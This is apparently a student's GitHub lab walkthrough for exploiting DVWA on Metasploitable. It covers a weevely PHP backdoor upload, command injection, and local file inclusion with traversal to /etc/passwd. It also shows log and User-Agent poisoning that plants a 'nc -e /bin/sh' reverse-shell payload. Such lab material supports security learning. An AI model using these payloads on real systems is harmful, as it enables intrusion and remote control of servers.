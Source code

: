 # basic vulnerabilities in Metasploitable
## File Upload Vulnerability
- weevely is a tool used for opening the backdoors and to access the website.
```
weevely generate 123456 /root/shell.php
```
- this creates a php file which is used to upload and open backdoors
- after uploading, run the following command
- `weevely (respective url) 123456`
- now from the terminal we can open the backdoor that is  `cd ..` to get back and then we can access as we want.
- burpsuite is used to interpt the website being executed with the help of proxy.

> __low__ - any file can be uploaded i.e., shell.php
>![Screenshot 2024-04-12 223232](https://github.com/stellados53/kali_commands/assets/142677726/dbc0885c-2112-4832-989f-a6c8dba0eb44)
> 
> __medium__ - we rename the file from shell.php to shell.jepg i.e., shell.jpeg and upload it using bruiteforce by changing the filename to php.
>![Screenshot 2024-04-12 224041](https://github.com/stellados53/kali_commands/assets/142677726/9d3a9640-817f-446f-91cc-f09b4c5d2baf)
> 
> __high__ - we change the file type to shell.php.jpeg and upload and then expoit.
> ![Screenshot 2024-04-12 224407](https://github.com/stellados53/kali_commands/assets/142677726/e202b0e8-1ee3-44e0-8f28-a04c6d404255)
- overall output will be..
 ![Screenshot 2024-04-12 224454](https://github.com/stellados53/kali_commands/assets/142677726/5c02d3fb-e53e-4ed3-85c7-477390b703c7)


<h3 align="center"> ... </h3> 

## Code Execution Vulnerability

- open any searchable website (dvwa- command execution)
- run the following command
```
nc -vv -l -p 8080
```
![Screenshot 2024-04-09 232801](https://github.com/stellados53/kali_commands/assets/142677726/7d1cc4d5-5310-4934-84ba-2c44d0124a0e)

> nc   = netcat tool this is used to use and connect the computer to the website.
> 
> -vv  = it is just a verbose mode, which retireve more output.
> 
> -l   = Listen mode, used to create a server that listens for incoming connections.
> 
> -p   = Specifies the source port number.
> 
> 8080 = port number.
- Now you can execute any command of kali linux such as pwd, ls -la.
- the execution will be done.

> __low__ - in searchbox END WITH ";" AND RUN THE COMMAND ACCORDING TO THE WEBSITE OS.MOST IMPORTANT IF THE IP IS 192.168.11.129, SUBTRACT THE LAST NUMBER -1 THAT IS 192.168.11.128.
>
> __medium__ - it cannot run two commands using ";" so we use "|" for the exploit.
>![Screenshot 2024-04-12 223232](https://github.com/stellados53/kali_commands/assets/142677726/d22e5048-15cd-491b-817f-f2a79979e8d3)
>
> __high__ is not even possible

<h3 align="center"> ... </h3> 

## File Inclusion Vulnerability
- it allows you to read  any file in the same server.
- access files outside www directory.
- it is used to get the reverse connection of the webserver.
- generally to get the commands to be executed in the kali linux we use  `cat etc/passwd`, the same we use in the file url to extract all the saved passwds.
```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../../etc/passwd
```
- by using this command we can get the all saved passwords saved in the webserver.
- ![Screenshot 2024-04-12 222928](https://github.com/stellados53/kali_commands/assets/142677726/615af2ec-4ac3-4ca6-a33b-28a323ed794a)
- by modifing the useragent from mozilla to `<?phpinfo();?>` using bruiteforce proxy(header)..we get the php information about the website
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/faab1ae4-f1dc-4578-9098-b2995c78dc04)
- by modifing the useragent to `<?passthru("nc -e /bin/sh 192.168.11.128 8888");?>` in the bruiteforce header for the connect of the website..and the terminal of kali linux `nc -vv -l -p 8888` to make connection.
- ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/26b2674a-e047-4c5f-8f72-bc938ca5ed35)
### Methods Of Exploitation
- Now as reference from the above use the another executable urls.
 ```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../..//proc/self/environ
```
```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../../var/log/auth.log
```
```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../../var/log/apache2/access.log
```
- In `proc/self/environ`..it retrieves the information about the client information.
> ![Screenshot 2024-04-12 231736](https://github.com/stellados53/kali_commands/assets/142677726/ab250e34-700e-49c3-bcb9-500b88edd38c)
>
- In `var/log/auth.log`..it retrieves all the login attempts to the webserver.
- In the split the terminal into 2 the one contains the the connection command that is `nc -vv -l -p 8888` and the other will be `ssh "<?passthru('nc -e /bin/sh 192.168.11.128 8888');?>@192.168.11.128`
- But the passthru command contain spaces that is between nc and -e etc..so we use decoder from the bruiteforce to encode the command as base64 to get a non-indent space line
> ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/a13b5290-c212-4249-9e31-a40e1a2b3914)
> 
- now..run the command as per the image.
> ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/b7b7144e-e541-40ee-85f1-86ca80ac5fae)
> 
- then we get the final reverse connection to the webserver..
> ![image](https://github.com/stellados53/vulnerabilities-Metasploitable-/assets/142677726/5ce2bbdf-bd7f-407f-9bbb-7945b1662342)





